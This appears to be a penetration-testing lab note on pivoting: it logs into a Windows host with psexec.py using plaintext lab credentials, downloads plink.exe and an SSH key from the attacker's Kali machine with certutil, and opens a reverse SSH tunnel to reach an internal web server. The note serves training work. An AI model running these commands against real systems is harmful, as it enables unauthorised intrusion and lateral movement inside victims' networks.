 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```bash - kali
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```command prompt - target
cd C:\Users\fcastle\Documents
```

```command prompt - windows
certutil -urlcache -split -f http://192.168.111.133/plink.exe
```

Create ssh keygen:

[[2a._SSH Tun(Linux)#Reverse Connections]]

Install putty-tools and convert they reverse file.

```bash - kali
sudo apt install putty-tools
```

```bash - kali
puttygen reverse -o reverse_key.ppk
```

Transfer reverse_key to vic:

```command prompt - windows
certutil -urlcache -split -f http://192.168.111.133/reverse_key.ppk
```

```command prompt - windows
cmd.exe /c echo y | .\plink.exe -R 8000:10.10.10.128:80 kali@192.168.111.133 -i reverse_key.ppk -N
```

![[Pasted image 20220116114712.png]]

![[Pasted image 20220116114732.png]]

